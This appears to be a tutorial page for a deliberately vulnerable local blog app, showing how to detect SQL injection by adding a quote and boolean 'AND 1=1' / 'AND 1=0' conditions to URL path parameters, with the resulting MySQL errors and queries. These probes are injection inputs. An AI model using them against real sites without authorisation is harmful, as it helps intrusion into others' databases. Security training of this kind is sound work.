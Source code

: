 
# Testing the application for SQLi

Testing the app for finding SQL injections vulnerabilies is quiet simple:
you need to find every variable and check if it is escaped or not before passed to the db engine. Just add a single quote, like this:
```shell
http://localhost:8080/p/2/slug-name-post'
http://localhost:8080/p/2'/slug-name-post
```

You should get and error for response:
```javascript
{
  "status": "Error",
  "message": "ER_PARSE_ERROR: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1"
}
```

This error means that the variable is passed unescaped to the database, getting this query:
```javascript
SELECT posts.id,title,body,date,tags,username,firstname,lastname,avatar 
FROM posts INNER JOIN users ON posts.userId = users.id 
WHERE posts.id = 21'
```

You can also pass a **condition** that is **true** (1=1), like this:
```shell
http://localhost:8080/p/2 AND 1=1/slug-name-post
```

This should return the post (id=2) and the query looks like:
```javascript
SELECT posts.id,title,body,date,tags,username,firstname,lastname,avatar 
FROM posts INNER JOIN users ON posts.userId = users.id 
WHERE posts.id = 21 AND 1=1
```

Finally you can pass a **condition** that is **false** (1=0), like this:
```shell
http://localhost:8080/p/2 AND 1=0/slug-name-post
```

This should return and error. The query looks like this:
```javascript
SELECT posts.id,title,body,date,tags,username,firstname,lastname,avatar 
FROM posts INNER JOIN users ON posts.userId = users.id 
WHERE posts.id = 21 AND 1=0
```

The app is also vulnerable in other parts like login and search.
Is up to you to check them out.